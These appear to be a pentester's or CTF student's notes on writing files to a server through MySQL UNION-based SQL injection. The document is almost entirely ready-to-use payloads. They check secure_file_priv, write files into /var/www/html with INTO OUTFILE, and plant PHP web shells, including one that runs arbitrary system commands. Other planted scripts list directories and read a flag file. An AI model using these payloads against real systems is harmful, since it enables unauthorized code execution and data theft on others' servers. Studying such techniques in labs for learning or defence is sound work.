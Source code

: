 # Writing files

## User privileges

SHOW VARIABLES LIKE 'secure_file_priv';
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- 

If empty, we can read/write files to any location.

SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt'

## Writing Files through SQL Injection

cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- 

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -


cn' union select "",'<?php $directoryPath = "/var/www/"; $dirHandle = opendir($directoryPath); if (!$dirHandle) { echo "Error: Failed to open the directory."; return; } echo "<h2>Files in Directory: $directory</h2>"; echo "<ul>"; while (($file = readdir($dirHandle)) !== false) { if ($file != \'.\' && $file != \'..\') { echo "<li>$file</li>"; } } closedir($dirHandle); ?>', "", "" into outfile '/var/www/html/shell3.php'-- 


cn' union select "",'<?php $filePath = \'/var/www/flag.txt\'; if (file_exists($filePath)) { $content = file_get_contents($filePath); echo nl2br(htmlspecialchars($content)); } else { echo "The file does not exist."; } ?>
', "", "" into outfile '/var/www/html/shell4.php'-- 